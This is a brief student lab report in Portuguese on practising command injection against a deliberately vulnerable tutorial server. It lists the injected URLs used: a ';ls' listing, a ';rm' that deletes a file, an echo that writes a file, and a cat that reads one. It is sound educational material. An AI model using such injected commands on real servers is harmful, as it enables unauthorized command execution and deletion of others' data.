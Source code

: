 # Relatório: Prática de Command Injection

Durante a apresentação em sala do conceito de command injection como um ataque de executando comandos no sistema operacional do servidor, no mesmo tutorial, foram propostas duas atividades práticas.

Realizando um ataque no servidor vulnerável disponibilizado pelo tutoral:
 http://commandinjection.herokuapp.com/

A partir das atividades propostas pela prática: 

Listei os arquivos do diretório:
> http://commandinjection.herokuapp.com/?dir=;ls

Apaguei um dos arquivos dentro da pasta /files
>http://commandinjection.herokuapp.com/?dir=files;rm%20composer.json

Criei um arquivo com o nome davicedraz.txt dentro da pasta /folder

> http://commandinjection.herokuapp.com/?dir=folder;echo "atividade_pratica" > davicedraz.txt

Escolhi um diretório qualquer na raiz do servidor e listar seu conteúdo.

>http://commandinjection.herokuapp.com/?dir=files;cat davicedraz.txt

![SQL](https://raw.githubusercontent.com/davicedraz/security/master/atividades_praticas/command_injection/listar_arquivo.JPG)

No geral, não tive dificuldades para executar as atividades propostas e achei o tutorial muito interessante. O mesmo pode ser aplicado a outros servidores com vulnerabilidades a serem exploradas por command injection.
